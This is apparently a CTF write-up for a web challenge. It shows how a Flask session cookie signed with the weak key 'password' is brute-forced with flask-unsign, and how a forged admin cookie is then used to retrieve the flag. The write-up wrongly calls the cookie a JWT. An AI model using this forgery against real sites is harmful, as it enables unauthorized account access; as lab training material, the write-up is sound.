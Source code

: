 # Genshin Code

**Challenge Category: Web** <br />
**Challenge Points: 500**

## Challenge Description

Bro said I can get 500 free rolls if I can log in to the administrator accounts. But I need to make sure my log in cookie is correct first...

`genshin.nypinfosec.com`

## Analysis

### 1. Login Form

Sending a GET request to the domain presents us a normal login form, with attributes `action="/login"` and `method="POST"`.

```sh
$ curl https://genshin.nypinfosec.com
```

```html
<form id="sign-up-form" action="/login" method="POST">
  <div class="form-group my-3">
    <label for="email">Username</label>
    <input
      type="text"
      class="form-control"
      name="username"
      placeholder="Enter Username"
    />
  </div>
  <div class="form-group my-3">
    <label for="password">Password</label>
    <input
      type="password"
      class="form-control"
      name="password"
      placeholder="Password"
    />
  </div>
  <div class="button-container">
    <button type="submit">Log In</button>
  </div>
</form>
```

### 2. Send Random Login Credentials

Since we know the login endpoint is at `/login`, we can attempt to login using a random `username` and `password` combination to see what we get.

```sh
$ curl -s -X POST -d "username=nyp&password=ctf" https://genshin.nypinfosec.com/login
```

```html
<!DOCTYPE html>
<html lang="en">
  <title>Redirecting...</title>
  <h1>Redirecting...</h1>
  <p>
    You should be redirected automatically to the target URL:
    <a href="/flag">/flag</a>. If not, click the link.
  </p>
</html>
```

This doesn't look right. No way did we supply some random `username` and `password` and we get logged in.

In the challenge description, they hinted something to do with cookies. Let's check the headers received.

```sh
$ curl -s -X POST -d "username=nyp&password=ctf" https://genshin.nypinfosec.com/login -v
```

```diff
  *   Trying 172.67.146.217:443...
  * Connected to genshin.nypinfosec.com (172.67.146.217) port 443 (#0)
  ...[truncated]...
  > POST /login HTTP/2
  > Host: genshin.nypinfosec.com
  > user-agent: curl/7.88.1
  > accept: */*
  > content-length: 25
  > content-type: application/x-www-form-urlencoded
  >
  ...[truncated]...
  < HTTP/2 302
  < date: Sun, 24 Dec 2023 15:21:30 GMT
  < content-type: text/html; charset=utf-8
  < location: /flag
  < vary: Cookie
+ < set-cookie: mihoyo_admin=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I; HttpOnly; Path=/
  ...[truncated]...
  <
  <!DOCTYPE html>
  <html lang="en">
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>
      You should be redirected automatically to the target URL:
      <a href="/flag">/flag</a>. If not, click the link.
    </p>
  </html>
  * Connection #0 to host genshin.nypinfosec.com left intact
```

As hinted, a cookie was set in the response.

### 3. The `/flag` Endpoint

We'll use the cookie from before and try the `/flag` endpoint as redirected now.

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I" https://genshin.nypinfosec.com/flag
```

```html
<!DOCTYPE html>
<html lang="en">
  <title>403 Forbidden</title>
  <h1>Forbidden</h1>
  <p>
    You don&#39;t have the permission to access the requested resource. It is
    either read-protected or not readable by the server.
  </p>
  * Connection #0 to host genshin.nypinfosec.com left intact
</html>
```

As expected, the cookie issued from the server does not work.

### 4. The Cookie Issued

The cookie issued by the server resembles much of a JWT token. We can try to decode it and see what is inside.

![JWT Decode](../.files/web_genshin_code_1.png "JWT Decode")

We definitely get something back. But, this token doesn't seem up-to-spec with [RFC 7519](https://datatracker.ietf.org/doc/html/rfc7519) because the payload is in the header, and there is no header to begin with.

```diff
### DECODED HEADER ###
+ Expected: {"typ":"jwt","alg":"HS256"}
- Decoded:  {"logged_in":false}

### DECODED PAYLOAD ###
+ Expected: {"logged_in":false}
- Decoded:  "e�Dv"
```

## Solution

1. We know that we must authenticate via a JWT token.
2. We know that the JWT token supplied is out-of-spec and can't be manipulated without the right tools. Let's install the right tools for the job.

```sh
pip3 install flask-unsign flask-unsign[wordlist]
```

3. Decrypt the issued JWT token using bruteforce

```sh
$ flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I" --wordlist flask_unsign_wordlist/wordlists/all.txt
```

```
[*] Session decodes to: {'logged_in': False}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2432): -----BEGIN PRIVATE KEY--------
[+] Found secret key after 19584 attemptsyyew6kIByris
'password'
```

4. Change the `logged_in` field to `True` and sign the new JWT token with the same key.

```sh
$ flask-unsign --sign --cookie "{'logged_in':True}" --secret password
```

```
eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M
```

5. Use the manipulated JWT token in the request back to the server

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M" https://genshin.nypinfosec.com/flag | html2text -
```

```
       Damn You Are This Good...     "NYP{fL@sK_s3ss1On    _m@N1pulAT10N}"
```

We found the flag. Let's cleanup the output a little.

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M" https://genshin.nypinfosec.com/flag | html2text - | tr -d " " | grep -o "NYP{.*}"
```

```
NYP{fL@sK_s3ss1On_m@N1pulAT10N}
```

## Final Remarks

Although this challenge was pretty straightforward, breaking spec [RFC 7519](https://datatracker.ietf.org/doc/html/rfc7519) made the challenge almost undoable unless there was a hint to Flask's own implementation of JWT, with mentions that it is out-of-spec.
